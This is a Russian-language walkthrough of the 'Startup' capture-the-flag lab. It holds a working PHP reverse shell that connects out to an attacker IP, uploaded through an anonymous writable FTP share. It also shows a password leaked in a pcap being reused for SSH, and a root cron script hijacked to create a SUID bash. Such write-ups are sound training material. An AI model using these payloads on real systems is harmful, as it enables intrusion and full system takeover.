




# Write-up: Startup 

## Recon

Запускаем nmap:

```bash
sudo nmap -sS -sV -sC --min-rate=1000 10.146.153.6
```

```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
```

Три ключевых момента:

- на FTP разрешён анонимный вход, и в нём есть **записываемая** директория `ftp`;
- на 80 отдаётся страница «Maintenance»;
- директория `ftp` с FTP, судя по всему, соответствует веб-каталогу `/files` — то есть загруженные файлы будут доступны по HTTP.

## Port 80

Главная страница:



Запускаем gobuster:

```bash
gobuster dir -u http://10.145.185.86/ \
  -w /usr/share/wordlists/seclist/SecLists/Discovery/Web-Content/big.txt
```

```text
/files               (Status: 301) [--> http://10.145.185.86/files/]
```

Смотрим `/files`:



Внутри лежит `notice.txt`:

```text
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY.
People downloading documents from our website will think we are a joke!
Now I dont know who it is, but Maya is looking pretty sus.
```

Это подсказка: в FTP можно загружать свои файлы. А раз `ftp` доступен через `/files`, значит, загруженный PHP-файл можно будет выполнить через веб.

## Эксплуатация

Готовим PHP reverse shell:

```php
<?php
$sock = fsockopen("192.168.129.76", 4444);
$proc = proc_open('/bin/bash -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

Загружаем через FTP в каталог `ftp`:

```text
ftp> cd ftp
ftp> binary
ftp> put reverse_shell.php
ftp> ls
-rwxrwxr-x    1 112      118           137 Nov 13 05:18 reverse_shell.php
```

Файл появился в `/files`:



Запускаем слушатель:

```bash
nc -lvnp 4444
```

И открываем файл в браузере — получаем шелл.

## Post-exploitation

```bash
www-data@startup:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

В корне лежит `recipe.txt`:



```text
Someone asked what our main ingredient to our spice soup is today.
I figured I can't keep it a secret forever and told him it was love.
```

Заглядываем в `/incidents` — там лежит `suspicious.pcapng`:

```bash
cd /incidents
ls
cat suspicious.pcapng
```

В pcap-файле (если открыть `strings`/`cat`) видим интересную строку — похоже, пароль от `sudo` пользователя `www-data`:

```text
[sudo] password for www-data: c4ntg3t3n0ughsp1c3
```

Пробуем эти же креды для SSH-пользователя `lennie`:

```text
lennie:c4ntg3t3n0ughsp1c3
```

## PrivEsc

В домашней директории `lenny` лежит `user.txt` и каталог `scripts`:

```bash
$ cat scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

Права:

```text
-rwxr-xr-x 1 root   root   77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root    1 Nov 13 05:34 startup_list.txt
```

`planner.sh` принадлежит `root` и выполняется, судя по всему, по cron от root. При этом он вызывает `/etc/print.sh`, который **принадлежит `lennie`**:

```bash
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"

lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

Значит, `print.sh` можно перезаписать — при следующем запуске cron от root выполнится наш код. Готовим SUID-копию bash:

```bash
cat > /etc/print.sh <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/tmpbash; chmod +s /tmp/tmpbash; /tmp/tmpbash
EOF
```

Ждём срабатывания cron и получаем root:

```bash
lennie@startup:/tmp$ ls -la
-rwsr-sr-x   1 root root 1037528 Nov 13 05:45 tmpbash

lennie@startup:/tmp$ /tmp/tmpbash -p
tmpbash-4.3# whoami
root
```

## Откуда берётся запуск `planner.sh`

Проверяем системные логи:

```bash
grep "planner.sh" /var/log/syslog /var/log/cron* 2>/dev/null
```

```text
/var/log/syslog:Nov 12 04:54:01 ubuntu-xenial CRON[11196]: (root) CMD (/home/lennie/scripts/planner.sh)
/var/log/syslog:Nov 12 04:55:01 ubuntu-xenial CRON[11209]: (root) CMD (/home/lennie/scripts/planner.sh)
```

А заглянув в `/var/spool/cron/crontabs/root`, видим явное расписание:

```bash
grep -rn "planner.sh" /etc/ /var/spool/cron/ 2>/dev/null
```

```text
/var/spool/cron/crontabs/root:4:* * * * * /home/lennie/scripts/planner.sh
```

То есть `planner.sh` выполняется **каждую минуту от root**, а внутри вызывается подконтрольный `lennie` файл `/etc/print.sh`.

## Итоговая схема (Kill Chain)

`Anonymous FTP (writable) → Web /files` → `Upload PHP shell` → `RCE as www-data` → `PCAP (leak creds)` → `lennie shell` → `cron root → planner.sh → /etc/print.sh (writable)` → `SUID bash → root`